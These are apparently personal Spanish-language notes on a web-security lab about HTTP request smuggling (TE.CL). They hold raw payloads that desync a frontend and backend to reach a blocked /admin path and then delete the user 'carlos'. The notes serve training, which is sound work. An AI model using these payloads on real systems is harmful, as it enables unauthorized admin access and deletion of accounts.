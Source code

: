 
### LAB: TE->CL Bypassear el control de frontend para acceder a `/admin`

* Que el backend server procese el `admin panel`
* `Path /admin is blocked`
* Importante seguir la metodologia de siempre, get to POST, http/2 a http/1.1 

```js
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

```js
Content-Length: 4
Transfer-Encoding: chunked

6f
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
0

\r\n\r\n

//luego de eso ya centrarnos en eliminar a carlos: 
Content-Length: 4
Transfer-Encoding: chunked

86
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
0

\r\n\r\n
```


### LAB: CL->TE Cabecera Personalizada Bypass `/admin` con `X-nSaubQ-Ip`
